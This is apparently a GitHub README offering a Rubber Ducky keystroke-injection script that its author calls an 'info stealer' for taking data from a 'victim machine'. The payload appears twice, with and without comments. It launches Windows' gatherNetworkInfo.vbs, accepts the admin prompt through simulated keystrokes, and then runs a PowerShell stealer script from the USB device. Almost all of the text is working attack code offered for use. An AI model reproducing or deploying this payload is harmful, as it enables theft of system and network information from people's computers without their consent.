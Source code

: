 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the C: \ Windows \ System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
</BR>
REM https://github.com/JonnyBanana
</BR>
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
DELAY 10000
GUI r
DELAY 200
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
REM run as admin
CTRL ALT ENTER
DELAY 100
LEFTARROW
DELAY 100
ENTER
REM the scripts require a little of time to create the files....
DELAY 15000
CTRL ESC
DELAY 200
STRING powershell
DELAY 200
ENTER
DELAY 200
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
DELAY 200
ENTER
REM the last command  takes about thirty seconds to copy all the informations
REM so be patient...



<h6>Script Without Comments</H6>

DELAY 10000
GUI R
DELAY 200
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
CTRL-ALT ENTER
DELAY 100
LEFTARROW
DELAY 100
ENTER
DELAY 15000
CTRL ESC
DELAY 200
STRING powershell
DELAY 200
ENTER
DELAY 200
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
DELAY 200
ENTER
